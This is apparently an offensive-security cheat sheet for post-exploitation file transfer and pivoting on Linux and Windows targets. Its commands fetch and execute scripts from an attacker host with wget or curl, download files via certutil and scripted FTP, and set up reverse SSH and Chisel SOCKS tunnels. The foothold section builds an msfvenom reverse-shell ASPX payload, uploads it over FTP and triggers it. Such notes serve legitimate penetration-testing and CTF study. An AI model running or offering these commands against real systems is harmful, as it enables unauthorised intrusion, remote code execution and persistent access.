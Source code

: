 ## Linux
- `python3 -m http.server 80`
   - start web server from location file is at
- `wget http://ip/file.sh`
- OR
- `curl -O http://10.10.10.10/file.sh`
  - `chmod +x file.sh`
  - `./file.sh`
- OR if have SSH access
- `scp linenum.sh user@remotehost:/tmp/linenum.sh`
 
#### Netcat
- Local host
  - `nc -nvlp 4444 < file`
- Target host
  - `nc <hostip> 4444 > file`
- If get this error: This is nc from the netcat-openbsd package. An alternative nc is available
  - run this: `nc -l 1234 > file.sh`
 
#### SSH
- using proxychains:
   - from target:
      - `ssh -fN -R [port] root@[localhost]`
   - from local host:
      - `ssh -fN -D [port] user@[target]`

- for a better shell, can try ssh
- .ssh files in /home/user -> identify with `ls -la`
- create keypair
  - ssh-keygen
- Can use SCP now
  - if need a file from something ssh connected to try scp
  - `scp /path/to/source/file.ext username@10.0.0.10:/path/to/destination/file.ext`
  - `scp <user@machineip>:Filename /directorytodownloadto/`


 ## Windows
 - Doesnt typically have netcat, wget or curl

#### Certutil
- certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt

#### FTP
- try ftp 10.10.10.10
 - Can create a file with the following:
   - `echo open 10.10.10.10> ftpreq.txt`
   - `echo USER username>> ftpreq.txt`
   - `echo password>> ftpreq.txt`
   - `echo bin>> ftpreq.txt`
   - `echo GET wget.exe>> ftpreq.txt`
   - `echo bye>> ftpreq.txt`
  - Run `ftp -v -n -s:ftpreq.txt`

#### Chisel
- host:
   - `chisel server -p 8000 --socks5 --reverse`
- target:
   - `chisel client [attacker]:8000 R:socks`
- edit /etc/proxychains.conf
...
- socks5    [host] 1080
- proxychains [command to execute on target]

## Original foothold:
- Manual shell msfvenom
- `Msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT=4444 -f aspx > shell.aspx`
- Put it into the FTP
- Set up a listener and navigate to it via firefox

